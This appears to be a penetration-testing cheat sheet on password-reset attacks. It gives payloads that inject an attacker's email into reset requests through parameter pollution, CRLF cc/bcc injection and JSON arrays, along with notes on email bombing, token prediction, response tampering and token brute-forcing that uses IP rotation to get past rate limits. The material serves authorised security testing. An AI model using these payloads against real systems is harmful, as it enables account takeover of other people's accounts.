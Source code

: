 ## Account takeover using password reset manipulating email parameter

Using the post request, add attacker email by :

- attacker email as second parameter using `&` : `email=victim@mail.com&email=attacker@email.com`

- Same principle but using `%20`

- Same principle but using `|`

- Same principle but using `,`

- Using `cc` : `email=victim@email.com%0a%0dcc:attacker@email.com`

- Same principle using `bcc`

- In json array : {"email":["victim@email.com","attacker@email.com"]}

---

## No rate limiting : email bombing

- Intercept password request
- Send to intruder
- Use null payload

https://hackerone.com/reports/794395

---

## Find how password reset token is generated

Could be :
- Timestamp 
- UserID
- Email of the user
- firstanme / lastname
- Date of birth
- Cryptogprahy 
- ...

Use Burp Sequencer to find the randomness or predictability of tokens.

---

## Manipulate the response

- Change the response if you have something like unauthorized and see if you are successful.

---

## Bruteforce token

- Try to bruteforce the reset token using burpsuite and IP rotator to bypass IP based rate limit.

---

## Try using your own token with another account.

---



